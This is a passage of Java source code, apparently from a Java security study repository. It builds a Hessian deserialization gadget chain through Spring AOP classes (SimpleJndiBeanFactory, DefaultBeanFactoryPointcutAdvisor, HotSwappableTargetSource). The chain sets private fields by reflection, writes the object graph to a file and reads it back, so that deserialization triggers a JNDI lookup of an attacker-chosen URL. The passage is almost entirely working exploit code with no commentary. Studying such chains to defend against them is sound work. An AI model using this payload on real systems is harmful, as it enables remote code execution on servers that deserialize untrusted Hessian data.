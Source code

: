```plain
        // SimpleJndiBeanFactory beanFactory = (SimpleJndiBeanFactory) Class.forName(SimpleJndiBeanFactory).getDeclaredConstructor(new Class[]{}).newInstance();
        beanFactory.setShareableResources(url);

        String defaultBeanFactoryPointcutAdvisor = "org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor";
        Constructor<?> constructor = Class.forName(defaultBeanFactoryPointcutAdvisor).getDeclaredConstructor(new Class[]{});
        DefaultBeanFactoryPointcutAdvisor advisor1 = (DefaultBeanFactoryPointcutAdvisor) constructor.newInstance();
        advisor1.setAdviceBeanName(url);
        advisor1.setBeanFactory(beanFactory);
        AsyncAnnotationAdvisor advisor2 = new AsyncAnnotationAdvisor();

        HotSwappableTargetSource targetSource1 = new HotSwappableTargetSource("1");
        HotSwappableTargetSource targetSource2 = new HotSwappableTargetSource("2");

        // 创建HashMap
        HashMap hashMap = new HashMap();
        hashMap.put(targetSource1, "111");
        hashMap.put(targetSource2, "222");

        String classname = "org.springframework.aop.target.HotSwappableTargetSource";
        setFiled(classname, targetSource1, "target", advisor1);
        setFiled(classname, targetSource2, "target", advisor2);

        // 序列化
        FileOutputStream fileOutputStream = new FileOutputStream("JavaSec/out/AbstractBeanFactoryPointcutAdvisorHessian.bin");
        Hessian2Output hessian2Output = new Hessian2Output(fileOutputStream);
        SerializerFactory serializerFactory = new SerializerFactory();
        serializerFactory.setAllowNonSerializable(true);
        hessian2Output.setSerializerFactory(serializerFactory);
        hessian2Output.writeObject(hashMap);
        hessian2Output.close();

        // 反序列化
        FileInputStream fileInputStream = new FileInputStream("JavaSec/out/AbstractBeanFactoryPointcutAdvisorHessian.bin");
        Hessian2Input hessian2Input = new Hessian2Input(fileInputStream);
        HashMap o = (HashMap) hessian2Input.readObject();


    }

    public static void setFiled(String classname, Object o, String fieldname, Object value) throws Exception {
        Class<?> aClass = Class.forName(classname);
        Field field = aClass.getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(o, value);
    }
}
```

